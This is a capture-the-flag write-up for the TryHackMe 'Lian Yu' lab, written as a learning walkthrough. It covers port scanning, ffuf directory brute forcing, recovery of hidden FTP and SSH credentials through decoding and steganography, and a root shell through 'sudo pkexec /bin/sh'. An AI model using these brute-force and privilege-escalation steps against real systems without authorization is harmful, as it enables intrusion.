




# Lian Yu (THM)

- https://tryhackme.com/room/lianyu
- March 4, 2023
- easy
- difficult before getting into shell

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.2
2. 22/ssh OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
3. 80/http Apache httpd
4. 111/rcpbind

### HTTP

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt -c -t 128
```

- found `island`

```html
<h1> Ohhh Noo, Don't Talk............... </h1>
<p> I wasn't Expecting You at this Moment. I will meet you there </p><!-- go!go!go! -->
<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>
```

- nothing special found and brute force to that directory

```sh
$ ffuf -u http://$IP/island/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt -c -t 128
```

- found `2100`

```html
<body>
  <h1 align="center">How Oliver Queen finds his way to Lian_Yu?</h1>
  <p align="center">
    <iframe
      width="640"
      height="480"
      src="https://www.youtube.com/embed/X8ZiFuW41yY"
    >
    </iframe>
  </p>

  <p>
    <!-- you can avail your .ticket here but how?   -->
  </p>
</body>
```

- brute force with that directory to that directory with .ticket extension

```sh
$ ffuf -u http://$IP/island/2100/FUZZ.ticket -w /usr/share/wordlists/directory-list-2.3-medium.txt -c -t 128
```

- `green_arrow` found
- `http://10.10.14.110/island/2100/green_arrow.ticket`

```
This is just a token to get into Queen's Gambit(Ship)
RTy8yhBQdscX
```

- it is base58 encoded version - `!#th3h00d`
- enter ftp with username `vigilante` which is found at /island directory and with password `!#th3h00d`
- found 2 users



- found 8 files
- get to local machine
- `Leave_me_alone.png` is not an image file yet

- check with hexedit



- change first digits to `89 50 4E 47 0D 0A 1A 0A` which is png's magic number



- can open that png file



- then use steghide to extract hidden files

```sh
$ steghide extract -sf aa.jpg
# enter passphrase with password
# get ss.zip file
```

- extract zip file and get shado file which may be password for ssh

## Get User Access

- enter ssh with that password
- Don't know which user and enter both.
- it is for slade's ssh password

```sh
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec

```

## Get Root Access

- find gtfobin for pkexec

```sh
slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
```

---
